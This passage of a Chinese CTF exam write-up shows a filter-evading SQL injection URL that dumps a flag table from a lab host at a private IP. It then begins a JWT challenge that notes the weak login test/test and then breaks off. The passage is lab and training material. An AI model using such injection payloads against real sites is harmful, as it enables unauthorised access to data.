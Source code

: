 ![image-20210929183111215](0927n考试CtF/image-20210929183111215.png)

`http://192.168.179.51:8008/?id=9999%0CUnion/**/Select%09Group_concat(id,flag)/**/fRom/**/ctf.flag`

得到flag

![image-20210929183703647](0927n考试CtF/image-20210929183703647.png)

# 第九题jwt

jwt=Jason  web token

点击右上角的登录，提示了弱密码test，test 登录后 刷新页面抓包

![image-20211013142327531](0927n考试CtF/image-20211013142327531.png)
